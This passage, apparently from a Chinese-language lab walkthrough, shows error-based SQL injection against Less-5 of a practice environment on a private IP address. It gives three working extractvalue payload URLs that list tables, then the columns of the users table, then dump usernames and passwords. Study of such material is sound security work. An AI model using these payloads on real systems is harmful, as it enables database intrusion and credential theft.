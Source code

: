 ```
http://192.168.231.129:9001/Less-5/?id=1' and extractvalue(1, concat(0x7e, (select substring(group_concat(table_name),1,30) from information_schema.tables where table_schema=database())))%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230604165700837.png" alt="image-20230604165700837" style="zoom:50%;" />

#### 查看指定数据表的所有字段（爆字段）

```
http://192.168.231.129:9001/Less-5/?id=1' and extractvalue(1, concat(0x7e, (select substring(group_concat(column_name),1,30) from information_schema.columns where table_schema=database() and table_name='users')))%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230604165850866.png" alt="image-20230604165850866" style="zoom:50%;" />

#### 查看指定字段的内容（拖库）

```
http://192.168.231.129:9001/Less-5/?id=1' and extractvalue(1, concat(0x7e, (select substring(group_concat(username,'~',password),1,30) from users)))%23
```
